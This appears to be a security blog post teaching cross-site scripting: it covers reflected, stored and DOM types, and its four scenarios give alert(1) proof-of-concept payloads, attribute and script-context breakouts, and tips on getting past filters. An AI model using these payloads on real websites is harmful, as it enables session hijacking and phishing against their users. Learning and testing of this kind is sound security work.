 ```yaml
---
layout: post
title: Cross-site Scripting (XSS)
description: >

tags: [webapp]
---
```


  **Cross-site Scripting (XSS)** is a vulnerability which allows an attacker to execute malicious JavaScripts or html code via input fields on the victim machine to steal session cookies which can be used to hijack the victim account  

Cross-site Scripting (XSS) is an attack is performed with a crafted malicious Javascript inserted into the application user input which is then stored on the database of the application. Whenever any user visits that particular, the crafted Javascript gets executed and the user session information will be transferred to the attacker server.  

### Basics of XSS
In order to have command on XSS, he/she should have knowledge on the following:  

JavasScript
a Client-side scripting language used to design and implement business logic functionalities in the application. It allows to interact with application server for sending and receiving the data. F  Below functionalities can be used to perform this attack:  
### What are the attacks can be performed?
- Allows an attacker to: 
 - Steal Session Cookies (Can hijack victim session)
 - Redirect users to malicious sites
 - Perform Phishing Attack
 - Prompt users to download Malwares (embedded within the code)
 - Website Defacement  
### Prone Vectors for XSS 
- User Input Fields
- HTTP Headers (User-Agent, Referrer etc) 
## Types of Cross-site Scripting (XSS)   
### Reflected Cross-site Scripting (XSS)
  In this type, the user input will be reflected only once. Whenever the user clicks on the link it gets executed. Hence, the malicious script will be executed once on the victim machines
{:.lead}  
### Stored Cross-site Scripting (XSS)
  In this type, the user input will be stored in the database on the same location. Whenever any user visits the injected page, the malicious script will be executed. Hence, the malicious script will be executed to every user whoever visits the injected page on the victim machine
{:.lead}  
### DOM-based Cross-site Scripting (XSS)
 In this type, the user input will be stored on the DOM Parser of the victim machine. Whenever the user visits the injected page, the script which is stored on the DOM Parser will be executed. Hence, the malicious script will be executed on the victim machine. Here the difference is, "It stores the malicious script on the victim browser (DOM Parser)"
{:.lead}  
### How Does it Work? 
Let's have look at different scenarios:

**Scenario 1:**  
Step1: User entered "Hello" to in search box and reflected the input as shown 

![](https://raw.githubusercontent.com/n0tak1dd1y/master/assets/webapp/1.PNG)

Step2: Press "CTRL+U" to see the source code and note the location of User input as shown  

![](https://raw.githubusercontent.com/n0tak1dd1y/master/assets/webapp/2.PNG)

Step3: Enter below payload in search box as shown
 ```js
<svg onload="alert(1)">
``` 
![](https://raw.githubusercontent.com/n0tak1dd1y/master/assets/webapp/3.PNG) 

Step4: Voila!!! got executed  

![](https://raw.githubusercontent.com/n0tak1dd1y/master/assets/webapp/4.PNG)

Step5: Now Press "CTRL+U" to see the how the script is reflected in the source code  

![](https://raw.githubusercontent.com/n0tak1dd1y/master/assets/webapp/5.PNG)

Step6: Note the script is placed between "<p></p>". It shows that we can pass all the tags which has the syntax as "<></>" or "<>"  
For Example: 
~~~html
<script>alert(1)</script>, <a href="javascript:alert(1)">hello</a>
<img src=1 onerror="alert(1)">
~~~
**Scenario 2:** 

Input as
~~~html
<input type=text name="Search" value="books">
~~~

Your search results are : <input type=text name="Search"  value="books">

**Attack**

Input as
~~~html
<input type=text name="Search" value="books"><script>alert(1)</script>">
<input type=text name="Search" value="books" onmouseover="alert(1)">
~~~

Output as

Your search results are :
~~~html
<input type=text name="Search" value="books"><script>alert(1)</script>">
~~~
Once the page loaded script will be executed
~~~html
<input type=text name=" Search" value="books" onmouseover="alert(1)">
~~~
When the user hover the mouse on books, script will be executed. 

These are called eventhandlers which are responsible for executing the function when an appropriate event is occurred. 
Voila!!! Our scripts are executed. 
In the scenario, the payloads can only be framed as shown: 
It should start with either: ">< or " eventhandlers 
These are the only way to fix the syntax with the malicious script. 
**Scenario 3:**

Input as
~~~html
<input type=text name="search" value="books">
~~~
Output as
~~~html
  Var search="books";
  Var search="books";
~~~

**Attack**

Input as
~~~html
<input type=text name="search" value="books";alert(1);//hell">
~~~
Output as
~~~html
   Var search="books";alert(1);//hell";
   Var search="books";alert(1);//hell";
~~~
Voila!!! our payload got executed

Here the logic is payload sits between " in the javascript syntax.

Hence, we need to fix it with javascript syntax.

Only the below shown payload can be used :
~~~html
  ";alert(1)//11
  ";alert(1)//11
~~~
**Scenario 4: Trigger XSS with links**

Input as
~~~html
   <input type=text name="link" value="any url">
~~~
Output as

Your Search results are as : any url 
**Attack**

Input as
~~~html
  <input type=text name="link" value="<a href=javascript:alert(1)">Click here</a>">
~~~
Output as

Your Search results are as :  Click Here 
Voila!!! The script gets executed on clicking the link
The above mentioned payload can be used to bypass many filters in the current scenarios 
There are many ways to use a particular payload, I have just shown few variations to understand how an xss payload can be created or framed.
Depends on the WAF, filters, we need to use different "EvenHandlers, HTML tags" to perform XSS.
Explore as many functions, tags as possible to be effective in XSS along with encoding techniques
